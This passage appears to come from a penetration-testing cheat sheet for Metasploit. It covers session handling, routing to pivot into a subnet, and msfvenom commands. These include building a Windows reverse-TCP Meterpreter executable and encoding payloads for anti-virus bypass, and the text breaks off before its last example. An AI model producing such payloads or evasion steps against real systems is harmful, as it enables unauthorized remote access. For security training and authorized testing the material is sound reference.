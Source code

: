       ```bash
      msf > session -i [SessionID]
      ```

      * Background the current interactive session:

      ```
      meterpreter > <Ctrl+Z>
      ```

      or

      ```bash
      meterpreter > background
      ```

      * Routing Through Sessions:

      All modules against the target subnet mask will be pivoted through this session.

      ```bash
      msf > route add [Subnet to Route To]
      [Subnet Netmask] [SessionID]
      ```
*   **Msfvenom**

    ```bash
    $ msfvenom –p [PayloadPath]
    –f [FormatType]
    LHOST=[LocalHost (if reverse conn.)]
    LPORT=[LocalPort]
    ```

    *   Example: Reverse Meterpreter payload as an executable and redirected into a file:

        ```bash
        $ msfvenom -p windows/meterpreter/
        reverse_tcp -f exe LHOST=192.168.1.1
        LPORT=4444 > met.exe
        ```
    * Format Options **(specified with –f)** --help-formats – List available output formats
      * `exe` – Executable
      * `pl` – Perl
      * `rb` – Ruby
      * `raw` – Raw shellcode
      * `c` – C code
    *   Encoding Payloads with msfvenom

        msfvenom can be used to apply a level of encoding for anti-virus bypass. For example run msfvenom with `-l encoders` to get a list of encoders.

        ```bash
        $ msfvenom -p [Payload] -e [Encoder] -f
        [FormatType] -i [EncodeInterations]
        LHOST=[LocalHost (if reverse conn.)]
        LPORT=[LocalPort]
        ```
    *   Example: Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:
